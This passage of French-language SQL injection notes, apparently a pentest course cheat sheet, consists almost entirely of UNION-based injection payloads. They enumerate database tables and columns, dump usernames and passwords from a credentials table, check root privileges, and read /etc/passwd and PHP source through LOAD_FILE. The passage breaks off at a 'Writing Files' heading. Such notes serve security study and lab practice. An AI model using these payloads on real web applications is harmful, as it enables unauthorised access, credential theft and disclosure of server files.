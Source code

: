 ```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```

## Reading Files : 

Savoir qui nous sommes : 

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

L'injection devient : 

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

Connaitre nos privilèges : 

```sql
SELECT super_priv FROM mysql.user
```

L'injection devient : 

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

Pour voir nos privilèges : 

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

Lire des fichiers : 

```sql
SELECT LOAD_FILE('/etc/passwd');
```

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

## Writing Files : 
